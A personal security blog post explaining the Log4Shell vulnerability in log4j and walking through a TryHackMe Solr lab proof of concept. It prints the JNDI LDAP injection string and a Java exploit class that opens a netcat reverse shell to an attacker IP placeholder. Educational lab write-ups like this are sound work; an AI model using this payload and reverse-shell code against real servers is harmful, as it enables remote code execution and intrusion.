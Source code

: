 +++
title = "Log4shell"
date = "2022-01-14T17:25:22+05:30"
author = "Somesh Banerjee"
authorTwitter = "banerjee_somesh"
cover = ""
tags = ["InfoSec", "CVE"]
keywords = ["log4shell", "CVE-2021-44228", "log4j"]
description = ""
showFullContent = false
readingTime = true
+++

# Introduction

Log4j is a logging framework for Java. A logging framework is better than just printing the logs with a print statement because you don't need to comment the print statements. You just need to maintain a configure file which tells what type of logs to store and write the code with different log levels as:
```
logging.ERROR("error");
logging.WARN("warning");
```

Now a logger logs everything. Every interactions with the application along with the time and ip address. But the vulnerability in log4j happens when the attacker can craft or manipulate what is logged. Let say it is logging the username and the username is like this

![](/blogs/log4j/1.jpg)

Now that username is the actual format used for RCE using log4j. The exploit is:
```
${jndi:ldap://ATTACKER-SERVER/x}
```
The exploit can be broken into:
1. log4j parses the command and sends a ldap request to ATTACKER-SERVER via jndi.
2. The first ATTACKER-SERVER then points to another attacker controlled server which is hosting a malicious Java code.
3. The victim requests the malicious code and executes it, leading to RCE.

The process can be visualized with the following figure by [GovCERT](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)
![](/blogs/log4j/2.png)

The vulnerability was first reported to Apache on 24th November 2021 and publicly announced on 9th December 2021. Many large organizations are affected by this CVE which includes Amazon, Google, Tencent and others. You can find the list [here](https://github.com/YfryTchsGD/Log4jAttackSurface)

# Proof of Concept

We will be using the TryHackMe Solr room for this. The victim machine is running Apache Solr 8.11.0, which has this vulnerability. First I am creating a ldap Reference server. The Reference server will point to another server which will serve the malicious java code. Both the server are running on same machines but different ports.

For ldap reference server, we will use [marshalsec](https://github.com/mbechler/marshalsec). It will serve on port 1389 and point to port 8000. Here is the screenshot
![](/blogs/log4j/3.png)

Now in port 8000, the compiled class of the following java code is served.
{{< highlight java >}}
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
{{< /highlight >}}
The code just sends a reverse shell to the attacker.

Now as we are interacting with the victim server using curl and passing the exploit as a parameter, it is getting executed and we are getting the reverse shell from the server.

![](/blogs/log4j/4.gif)

# Conclusion

The CVE have been patched in log4j update by disabling jndi by default. [HuntresLabs scanner](https://log4shell.huntress.com/) can be used to check for Log4Shell vulnerability in your app.

Some of the resources I used to learn about this:
- https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
- https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation
- TryHackMe - Solar, exploiting log4j Room
